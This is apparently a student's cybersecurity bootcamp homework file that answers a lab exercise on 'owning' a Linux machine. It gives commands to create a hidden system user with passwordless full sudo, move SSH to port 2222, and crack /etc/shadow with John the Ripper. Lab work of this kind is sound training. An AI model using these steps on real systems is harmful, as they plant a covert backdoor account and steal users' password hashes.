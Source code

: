 ## Rob Myers Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed after creating user sysd`   
                     or
    - `if logged in as sysd, then enter passwd`                 
                     or
    - `if logged in as sysadmin, then enter passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`
         
      ![picture](IMAGE/sysdID.PNG)    
                                                      
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`
       
      ![picture](IMAGE/sysdID.PNG)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL      

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL  
         
      ![description](IMAGE/su_acc_nopass.PNG) 

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    ![description](IMAGE/step_2.PNG)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

![description](IMAGE/step3_1.PNG)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`
 
    ![description](IMAGE/passwd8.PNG)

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

